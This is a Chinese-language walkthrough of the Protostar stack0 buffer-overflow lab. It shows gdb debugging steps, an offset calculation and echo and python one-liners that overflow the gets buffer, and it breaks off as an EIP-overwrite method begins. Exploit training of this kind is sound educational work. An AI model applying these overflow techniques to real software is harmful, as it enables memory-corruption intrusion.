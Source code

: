 ```
b *0x08048411
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/65821984a8644803b1da2671a01c7c3a.png)
然后设置
```
define hook-stop
```
这个工具可以帮助我们在每一步操作停下来后，自动的运行我们设置的命令
```
info registers   //显示寄存器里的地址
x/24wx $esp      //显示esp寄存器里的内容
x/2i $eip        //显示eip寄存器里的内容
end              //结束
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/76672676c8b64ab2bc5a6526a431991c.png)
然后我们输入run运行程序到第一个断点
```
r
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/b0d907a84be94f3eaddd56f2ea988395.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAQmExX01hMA==,size_20,color_FFFFFF,t_70,g_se,x_16)
现在我们马上就要执行gets函数了，输入n执行gets函数
```
n    //next
```
我们随意输入一些内容，按下回车键
![在这里插入图片描述](https://img-blog.csdnimg.cn/a8fba895f4a44ae6b10454f56ba74896.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/423cd4dc329c4f9e8503e6c7b0c195e0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAQmExX01hMA==,size_20,color_FFFFFF,t_70,g_se,x_16)
可以看到，0x41是A的ascii码，我们距离0x0000000还有一段距离
```
x/wx $esp+0x5c            //查看esp地址+0x5c偏移地址的内容
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/4c9fec6769df4db999251a394af61ee3.png)
算了一下，我们需要68个字符才能覆盖
输入q退出gdb
然后使用echo或者python对程序进行输入
```
echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' | /opt/protostar/bin/stack0
```
```
python -c 'print "A"*(4+16*3+14)' | /opt/protostar/bin/stack0
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/71be3bb21b714ee586dfee3430e4c3b0.png)
可以看到，我们已经成功打印出了正确的字符
## 方式二：更改eip寄存器的值
寄存器的功能是存储二进制代码，不同的寄存器有不同的作用，这里，我们要认识一个很重要的寄存器，他叫做EIP，在64位程序里叫做RIP，他是程序的指针，指针就是寻找地址的，指到什么地址，就会运行该地址的参数，控制了这个指针，就能控制整个程序的运行
重新打开程序，由于我们可以控制eip寄存器，随便在哪下一个断点都行，我这里在程序头下一个断点
